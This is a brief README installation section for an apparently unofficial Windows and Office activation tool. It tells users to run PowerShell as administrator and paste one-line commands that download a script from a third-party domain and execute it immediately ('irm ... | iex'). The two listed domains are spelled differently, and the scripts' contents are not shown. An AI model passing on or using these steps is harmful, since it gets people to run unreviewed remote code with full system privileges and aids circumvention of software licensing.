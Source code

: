 # Installation

- Right click on the Windows Start icon 🪟 then select Windows PowerShell (Admin).
- Copy then right click to paste all below commands into PowerShell window at once then hit Enter.
- Allow system to running a script: https://go.microsoft.com/fwlink/?LinkID=135170

# For Windows 7/10/11 and Server 2012/2016/2019/2022 activations
```ps
irm https://msgang.com/windows | iex
```
# For Office 2013/2016/2019/2021 activations.
```ps
irm https://msang.com/office | iex    
```
